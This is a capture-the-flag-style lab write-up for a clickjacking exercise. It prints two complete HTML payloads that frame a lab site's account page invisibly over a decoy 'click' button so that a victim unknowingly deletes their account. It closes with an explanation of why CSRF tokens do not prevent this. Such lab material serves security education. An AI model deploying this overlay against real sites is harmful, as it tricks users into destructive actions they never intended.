 
### Basic clickjacking with CSRF token protection : APPRENTICE

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.

> Login via the given credentials and head to the my-account page.

![](./screenshots/lab1-1.png)

> We need to replicate this page, this will be the decoy page.
> Above it we will place a transparent layer that when clicked deletes the account.

```HTMl
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.1; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:550px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a8a00bd044b105d81d994f4003600c2.web-security-academy.net/my-account/"> </iframe> 
</body>
```

> To test, we made the opacity of the target website 0.1 to be able to move the decoy `click` right on top of the delete button.
> Keep playing with the pixels in the top and left until the placement of click is right above the delete button. The values above are the final ones.
> To test, simply click on view exploit in the exploit server.

![](./screenshots/lab1-2.png)

![](./screenshots/lab1-3.png)

> We can check that if the user hovers on click, the mouse changes to the click button pointer.
> After we are done, change the opacity of the target website to make it transparent and then store it to complete the lab.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:550px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a8a00bd044b105d81d994f4003600c2.web-security-academy.net/my-account/"> </iframe> 
</body>
```

##### Notice 

> Notice that the application is using CSRF tokens, but this isnt protecting against the clickjacking attack.
>  Clickjacking attacks are not mitigated by the CSRF token as a target session is established with content loaded from an authentic website and with all requests happening on-domain.

---
